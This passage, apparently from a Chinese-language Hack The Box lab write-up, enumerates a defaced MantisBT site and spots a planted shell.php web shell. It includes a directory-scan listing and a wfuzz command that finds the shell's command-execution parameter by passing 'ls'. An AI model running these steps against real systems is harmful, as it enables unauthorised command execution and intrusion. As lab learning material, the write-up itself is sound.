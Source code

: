 ## Web - sec03.rentahacker.htb

![](https://vip1.loli.net/2020/05/24/jm7d1OQ2JvXknqG.png)

网站被挂了一个黑页，ID 和在博客留言的一致，这个网站应该就是之前说的那个被黑的「bug tracker」了

```
/login.php (Status: 200)
/index.php (Status: 302)
/search.php (Status: 302)
/index.html (Status: 200)
/.htaccess (Status: 403)
/view.php (Status: 200)
/signup.php (Status: 200)
/. (Status: 200)
/.html (Status: 403)
/.php (Status: 403)
/verify.php (Status: 200)
/.htpasswd (Status: 403)
/plugin.php (Status: 200)
/.htm (Status: 403)
/.htpasswds (Status: 403)
/account_delete.php (Status: 200)
/.htgroup (Status: 403)
/core.php (Status: 200)
/wp-forum.phps (Status: 403)
/wiki.php (Status: 200)
/.htaccess.bak (Status: 403)
/bug_report.php (Status: 200)
/main_page.php (Status: 302)
/shell.php (Status: 200)
/.htuser (Status: 403)
/login_page.php (Status: 200)
/news_rss.php (Status: 302)
/.htc (Status: 403)
/.ht (Status: 403)
```

扫了一下目录，随便访问了返回 200 的页面，可以知道这个域名下部署的是

`MantisBT Bug Tracker`

![](https://vip1.loli.net/2020/05/24/krvd45W2DxiRPbI.png)

另外需要注意的是，有一个 `shell.php` 文件也返回了 200 状态码，目测可以执行命令

```
$ wfuzz -w /usr/share/wordlists/seclists-git/Discovery/Web-Content/raft-medium-words-lowercase.txt "http://sec03.rentahacker.htb/shell.php?FUZZ=ls"
000000868:   200        0 L      0 W      0 Ch        "goods_script"                                                                                                                                                               
000000869:   200        225 L    225 W    4907 Ch     "hidden"                                                                                                                                                                     
000000871:   200        0 L      0 W      0 Ch        "postinfo"
```
